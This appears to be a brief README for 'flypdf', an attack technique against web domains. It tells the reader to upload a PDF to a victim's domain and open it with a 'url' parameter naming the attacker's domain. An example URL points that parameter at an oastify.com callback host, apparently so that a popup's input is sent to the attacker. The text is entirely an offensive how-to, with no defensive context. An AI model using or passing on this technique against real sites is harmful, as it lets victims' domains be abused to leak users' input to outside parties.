 # flypdf

Just upload the pdf file to victim's domain

The open this file in victim's domain with `url` parameter is attacker's domain.

Ex: http://www.flyseccorp.com/files/chrome_popup_send_input_by_lamscun.pdf?url=http://222finzjhx4uw5v59kirj6qcm3svgmcpetahz.oastify.com
